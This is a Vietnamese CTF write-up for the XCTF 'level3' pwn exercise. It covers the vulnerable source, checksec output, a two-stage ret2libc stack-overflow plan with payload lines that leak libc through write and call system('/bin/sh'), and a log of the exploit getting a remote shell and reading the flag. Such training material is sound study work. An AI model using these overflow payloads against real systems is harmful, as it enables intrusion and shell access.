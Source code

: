 # XCTF - PWN Exercise - level3

```c
#include<stdio.h>

ssize_t vulnerable_function()
{
  char buf[136]; // [esp+0h] [ebp-88h] BYREF

  write(1, "Input:\n", 7u);
  return read(0, buf, 0x100u);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  write(1, "Hello, World!\n", 0xEu);
  return 0;
}
```

Kiếm tra các flag secure trước.

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/5_level3 λ checksec level3   
[*] '/home/l1j9m4/0_PWNable/ADworld_XCTF/Exersice/5_level3/level3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Chương trình rất đơn giản, biến `buf` có 136 kí tự nhưng hàm `read` cho phép đọc 256 kí tự input và chương trình cũng không có flag secure `Canary` => có thể stack buffer overflow để lấy shell tương tác trên server. Chúng ta sẽ dùng phương pháp `ret2libc` vì không có functions nào của chương trình cho phép có shell hay là đọc flag trên server.

Những bài sử dụng kỹ thuật `ret2libc` thường sẽ leak địa chỉ của libc bằng hàm `write` hoặc hàm `puts` rồi sau đó tính toán `offset` và địa chỉ của các hàm liên quan đến lấy shell tương tác như: `địa chỉ cơ sở của libc`, `system`, chuỗi `"/bin/sh"`,... do địa chỉ tương đối giữa các hàm trong libc là cố định (khoảng cách giữa các hàm).

Để lấy địa chỉ của hàm `system` của bài này, ta có thể sử dụng hàm `write()` để thực hiện tính toán offset. 

   1. Đầu tiên sử dụng hàm write() để tính địa chỉ thực của hàm `write()` được chương trình lưu trong `GOT`. 
   
   2. Sử dụng khoảng cách tương đối giữa các để tính địa chỉ thực của `system` và `"/bin/sh"`.

=> Đối với cuộc tấn công đầu tiên, chúng ta sử dụng tràn ngăn xếp để làm rò rỉ địa chỉ thực của hàm write() trong bảng GOT, sau đó trừ đi phần bù trong libc để lấy địa chỉ cơ sở của libc. 
=> Cuộc tấn công thứ hai sẽ quay lại functions `main`, vượt qua tràn ngăn xếp một lần nữa và sử dụng chức năng `system` tính toán được để `get shell` :p.

Trong trường hợp này, trọng tải được sử dụng lần đầu tiên bao gồm:

```
payload1 = 'A' * 0x88 + p32 (0xdeadbeef) + p32 (write_plt) + p32 (main_addr) + p32 (1) + p32 (write_got) + p32 (0xdeadbeef)
```

Sử dụng cuộc tấn công đầu tiên, bạn có thể lấy được cơ sở của địa chỉ libc. Sau đó, thực hiện cuộc tấn công thứ hai. Trọng tải được sử dụng bao gồm:

```
payload2 = 'A' * 0x88 + p32 (0xdeadbeef) + p32 (sys_addr) + p32 (0xdeadbeef) + p32 (bin_sh_addr)
```

Việc tính toán một số địa chỉ liên quan qua địa chỉ của hàm `write` leak được. Địa chỉ được tính như sau:

|   Địa chỉ các hàm   |          Tính toán                                                     |
|   :-------------:   | :--------------------------------------------------------------------: |
|      libc_addr      | (địa chỉ write lưu tại GOT của write) - (offset của write so với libc) |
|     system_addr     | libc_addr + (offset của system so với libc)                            |
|     bin_sh_addr     | libc_addr + (offset của chuỗi "/bin/sh" so với libc)                   |



Tiến hành viết file [exploit.py](exploit.py) và khai thác:

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/5_level3 λ python2 exploit.py
[+] Opening connection to 111.200.241.244 on port 51341: Done
('Write_got address is', '0xf76e13c0')
('libc address is', '0xf760d000')
('system address is', '0xf7647940')
('/bin/sh address is', '0xf776602b')
[*] Switching to interactive mode
Input:
$ ls
bin
dev
flag
level3
lib
lib32
lib64
$ cat flag
cyberpeace{30760e28dd5d22b93e22a2d89a7113b9}
$  
```
